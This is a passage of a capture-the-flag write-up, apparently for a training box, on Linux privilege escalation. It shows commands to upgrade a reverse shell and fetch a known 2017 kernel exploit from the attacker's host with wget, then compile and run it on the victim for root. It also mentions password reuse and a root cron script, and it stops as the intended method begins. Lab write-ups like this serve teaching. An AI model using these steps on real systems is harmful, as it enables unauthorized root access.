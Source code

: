 ## Priv Esc
*Note: The method I first used for priv esc I don't think was the intended method. But it used a CVE from 2017, and the box came out in 2020 so to me it's fair game. I'll go over the intended priv esc after this.*

First things first, I upgrade my shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Enter a python PTY
CTRL+Z # Background my rev shell to get back on my attacking machine
stty raw -echo; fg # Enter this on attacking machine
# Press Enter twice. This will get you back onto victim box.
export SHELL=bash && export TERM=xterm && stty rows 67 columns 125
```
Looking around I see I'm not part of any special groups, and I don't have www-data's password so I don't know what I can run with sudo. I look at `/etc/passwd` to see what user's are on the box. Sure enough, there's good old Miles. I `su milesdyson` and try the 2 passwords I have for him, and the Squirrelmail one gets me on his account. I check `sudo -l` and unfortunately, he has no sudo privileges. In his home directory is a script running as root called `backup.sh` I check `/etc/crontab` and sure enough, the script runs once a minute. 

I figure this is probably the intended priv esc method but I want to look around and see if there's another way. 

Eventually I run `linpeas.sh`, and it highlights the Linux kernel version in red. I do a `searchsploit Linux Kernel 4.8.0` and one result for Privilege Escalation looks promising. Reading the exploit, it looks like it was tested on the exact kernel this box is running! `4.8.0-58-generic #63~16.04.1-Ubuntu SMP`

I grab the exploit from searchsploit, download it to the victim box, compile it, execute it, and just like that it gave me a root shell.
```bash
searchsploit -m linux/local/43418.c # Attacker : Download exploit
mv  43418.c pwn.c # Attacker : Rename it for ease of use
wget http://$IP/pwn.c # Victim : move exploit to victim
gcc pwn.c -o pwn # Victim : Compile the exploit
./pwn # Victim : Run exploit, become root >:)
```
Now to be fair, this kernel exploit involves memory corruption, and is currently above my paygrade, ie, I don't really understand how it works. In the exploit code itself is a link to Rick Larabee's blog where he goes more in depth on it and it's some good reading if you're up for it: https://ricklarabee.blogspot.com/2017/12/adapting-poc-for-cve-2017-1000112-to.html

## Intended Priv Esc Method
So the script running in milesdyson's home